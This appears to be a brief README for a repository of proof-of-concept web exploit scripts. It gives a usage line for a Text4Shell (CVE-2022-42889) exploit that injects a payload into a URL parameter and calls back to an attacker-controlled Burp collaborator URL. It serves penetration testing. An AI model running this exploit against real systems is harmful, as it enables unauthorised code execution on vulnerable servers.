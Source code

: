 # Web Exploits

POC exploit scripts for web pentesting


## Usage/Examples

[Text4Shell A Vulnerability in Java library Apache Commons Text (CVE-2022-42889)](https://infosecwriteups.com/text4shell-poc-cve-2022-42889-f6e9df41b3b7)

- Replace the URL containing the {{exploit}} placeholder, which will be replaced with the payload. Replace <collaborator_url> with your controlled URL from Burp, utilized as part of the payload.

```bash
python3 text4shell.py -u http://localhost/text4shell/attack?search={{exploit}} -c <collaborator URL>
```
